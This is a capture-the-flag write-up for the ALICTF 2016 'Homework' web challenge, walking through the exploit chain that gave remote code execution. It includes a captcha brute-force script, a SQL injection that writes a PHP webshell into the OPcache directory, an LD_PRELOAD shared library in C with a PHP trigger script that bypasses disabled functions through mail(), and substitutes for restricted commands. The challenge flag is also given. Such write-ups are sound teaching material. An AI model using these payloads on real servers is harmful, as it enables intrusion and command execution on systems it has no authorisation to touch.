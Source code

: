 ```yaml
---
layout: post
title: Homework
category: ALICTF 2016
---
```


### Description
It's time to submit your homework.
But I'm sure the teacher is too busy to check your homework.

---

### The Challenge
This has been a very fun challenge for our team as it consisted of multiple exploitation techniques leading to RCE.

This is a big writeup, if ever there are some details that are missing, feel free to check the writeup of my teammate [here](https://github.com/tothi/ctfs/tree/master/alictf-2016/homework).

The first steps required us to register and login. Both these steps required us to enter a captcha, which we can bruteforce with a simple Python script.

![login](/assets/img/alictf-2016/login.png)

These types of captchas are fairly common in CTFs, so we already had a script ready :

``` python
#!/usr/bin/env python2

import hashlib
import string
import random
import sys

charset = string.ascii_uppercase + string.digits

while True:
  tmp = ''.join(random.choice(charset) for _ in range(6))
  tmpHash = hashlib.md5(tmp.encode()).hexdigest()
  if tmpHash[0:4] == sys.argv[1]:
    print ("[*] Solved by " + tmp)

```
---

Once we log in, we can start playing around with the website. The website consisted of three features. We can :

- Upload our homework with a brief description
- View the uploaded file
- View the description of our previously uploaded homework

![main_page](/assets/img/alictf-2016/upload_form1.png)
![upload_success](/assets/img/alictf-2016/upload_success.png)


The first thing we had in mind was to upload a PHP file directly through the upload functionality. Uploading a `payload.php` file worked, but navigating to it renders a page with the overwritten text `bad man`.

Moving on to the description viewer functionality of the website, we noticed an SQL injectable parameter in the URL :

![detail_view_sqli_poc](/assets/img/alictf-2016/detail_view_sqli_poc.png)

The parameter wasn't filtered at all, which gave us free reign to query whatever we wanted.
We could dump some system files, depending on what permissions were set on the filesystem.

![detail_view_sqli_loadfile](/assets/img/alictf-2016/detail_view_sqli_loadfile.png)

The source code folders were hardened, so not much we could do there.
We then moved on to dumping all of the available tables, unfortunately there wasn't anything interesting there either.

---

After much hours of struggling, we discovered 2 files that were publicly available on the website : `phpinfo.php` and `readme.html`.

##### phpinfo.php

This page gave us the classic output of a `phpinfo()` function call. Browsing through it quickly, we noticed that PHP 7.0's OPcache feature was enabled with the appropriate settings to run the exploitation technique presented in this [article](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

![phpinfo](/assets/img/alictf-2016/phpinfo_opcache.png)

From this page, we have all the information we need to try this attack vector :

- File cache location `/tmp/OPcache`
- Document root `/var/www/html`
- `System ID`

In order for this exploitation technique to work though, we needed an unrestricted file upload vulnerability on the website through the `www-data` user, which wasn't the case here.
Which brings us to the `readme.html` file.

##### readme.html

![readme](/assets/img/alictf-2016/readme.png)

This file guides us through the installation of a plugin of some sort. Though the contents of the file is mostly irrelivent, there is one dangerous line that could make things much simpler for us : `chmod 777 -R ./`.
Because of this line, the `/tmp` as well as all of its underlying folders have `777` permissions. Which means we no longer require the `www-data` user to do unrestricted file upload.

We can go through the SQL injection vulnerability and upload files using the `INTO DUMPFILE [filename]` keywords!

---

At this point, we must understand that the `INTO DUMPFILE [filename]` keywords require us to specify a non-existant file.
Therefore, we can't overwrite existing OPcache files. We need to inject an OPcache file for a PHP script that has not been called yet.
This is where the homework upload functionality from earlier comes in. Since we can upload any file/extension we want, we can leverage that as the "PHP script that has not been called yet".

From all the information we've gathered so far, we should be able to make this attack vector work. These are the steps we had to do to get a working PHP script :

  1. Create our PHP webshell `<?php system($_GET['cmd']) ?>`
  2. Compile it into an OPcache file `payload.php.bin`
  3. Modify the `System ID` of `payload.php.bin` to match the server's `System ID`
  4. Get the hex dump of our payload. I used `cat payload.php.bin | hex`
  5. Upload a file with the name `payload.php`.
  6. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-payload.php`).
  7. Upload the OPcache file at the appropriate location through SQL injection :
  8. Navigate to the uploaded file.

Here is the SQL injection used on the ID parameter to upload the OPcache file :

    -1' SELECT X'[OPCACHE PAYLOAD HEXDUMP]' INTO DUMPFILE '/tmp/[SYSTEM ID]/var/www/html/[PATH OF UPLOADED FILE] #

---

Going through all the steps, we managed to get our PHP file to execute. This is when we encountered a new problem. Most of the functions are blocked!

![restrictions](/assets/img/alictf-2016/phpinfo_restrictions.png)

Basically, we have a working PHP script, but no way to execute shell commands. Going through the `phpinfo` file again, we've noticed that `sendmail` is enabled.

![sendmail](/assets/img/alictf-2016/phpinfo_sendmail.png)

Doing some research on PHP and sendmail, we realise that PHP's `mail()` function executes the `sendmail` binary internally. Knowing this, we've concluded that we have to use the `LD_PRELOAD` trick to inject our own code and get a webshell. You can find out more about it [here](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).

Basically, through PHP's `putenv` function, we can specify the path to a malicious shared library in the `LD_PRELOAD` environment variable.

When a file is executed, the file specified in the `LD_PRELOAD` variable will be loaded before any other library. Which gives us the oppurtunity to overwrite standard library functions and run our own code.

In this case, we have to create a library containing a function that we know is being called by `sendmail`. We'll override the `geteuid()` function. Here is our code :

``` c
/* compile: gcc -Wall -fPIC -shared -o evil.so evil.c -ldl */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(char *cmd) {
  char buf[512];
  strcpy(buf, cmd);
  strcat(buf, " > /tmp/_0utput.txt");
  system(buf);
}

int  geteuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```

The script above will run the command specified in the `_evilcmd` environment variable, and send the output to a temporary file that we can read.

Here is the PHP script that we'll use to trigger the evil library.

``` php
<?php
  $cmd = $_GET['cmd'];

  echo putenv("LD_PRELOAD=/var/www/html/upload/XXXXXXXXXXXX-evil.so");
  echo putenv("_evilcmd=".$_GET['cmd']);
  echo mail("a@example.com", "a", "a");
  show_source("/tmp/_0utput.txt");
?>
```

Finally :

1. Compile the `evil.so` library
2. Upload it through the upload functionality of the website
3. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-evil.so`)
4. Modify the PHP script with the correct `evil.so` path.
5. Use the OPcache exploit technique from earlier to get a working PHP script on the server.
6. Navigate to the your PHP script with the `?cmd=echo ok` argument.

![cmd_interface_test](/assets/img/alictf-2016/cmd_interface_test.png)

At this point, it's just a matter of finding the flag. Some common commands like `ls` and `cat` are restricted which makes this last step harder.
Here are the commands we used to bypass the restrictions :

`ls => printf '%s\n' /*`
`cat => tac`

![cmd_interface_ls](/assets/img/alictf-2016/cmd_interface_ls.png)
![cmd_interface_flag](/assets/img/alictf-2016/cmd_interface_flag.png)

**Flag :** alictf{nk2csizy7od2feyt5un4mx7s891gilf4}

